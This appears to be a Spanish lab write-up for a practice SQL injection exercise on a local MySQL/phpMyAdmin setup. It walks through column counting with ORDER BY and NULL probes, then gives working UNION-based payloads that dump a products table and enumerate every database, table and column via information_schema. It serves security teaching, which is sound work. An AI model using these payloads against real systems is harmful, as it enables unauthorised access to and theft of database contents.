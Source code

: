 
# Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


# Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


# Consulta que muestra todos los productos
![](capturas/sql-injection-lab1.png)

![](capturas/sql-injection-lab1-2.png)

![](capturas/sql-injection-lab1-3.png)

Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```

![](capturas/sql-injection-lab1-4.png)


# Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```
![](capturas/sql-injection-lab1-5.png)


# Datos de todas las bases de datos, tablas y columnas de MySQL
Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
![](capturas/sql-injection-lab1-6.png)


# Todas las bases de datos y sus tablas de MySQL
Inyección SQL →
```
999' UNION select null, table_schema,table_name FROM information_Schema.tables;#
```
Obtenemos resultados del nombre de la base de datos con la información de sus columnas→
![](capturas/sql-injection-lab1-7.png)
